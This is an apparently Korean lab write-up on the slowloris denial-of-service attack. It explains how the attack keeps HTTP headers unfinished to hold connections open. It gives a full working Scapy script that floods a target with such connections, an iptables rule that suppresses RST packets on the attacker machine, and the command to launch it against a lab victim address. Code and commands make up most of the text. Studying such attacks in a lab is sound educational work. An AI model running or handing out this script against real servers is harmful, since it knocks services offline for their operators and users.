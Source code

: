 # slowloris 공격 기법

DoS 공격 기법 중 하나  
요청 헤더의 끝이 개행문자로 끝나는 요청의 구조를 이용한 공격  
https://crefunx.tistory.com/search/slowloris

요청 헤더의 끝을 나타내는 개행문자를 서버로 전달하지 않고, 헤더를 계속해서 전달해, 연결을 유지시키는 공격 기법

```bash
# slowloris 공격을 위한 파이썬 파일을 작성한다
vim slowloris.py
```

slowloris.py

```python
#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)

    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))
```

```bash
# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

![scapy iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP](./imgs/scapy11.png)

### 희생자 PC에서 80포트를 열어준다

```bash
# apache서버를 실행한다
service apache2 restart
```

```bash
# 실행권한을 준다
chmod 755 slowloris.py

# 50번 공격 실행 희생자(192.168.44.144)
./slowloris.py 192.168.44.144 50
```

웹 브라우저를 열어 상태를 확인한다

> localhost/server-status

![slowloris](./imgs/slowloris.png)

```bash
# wireshark 실행
wireshark
```

![slowloris](./imgs/slowloris1.png)

![slowloris](./imgs/slowloris2.png)
TCP 헤더가 증가 한 것을 볼 수 있다
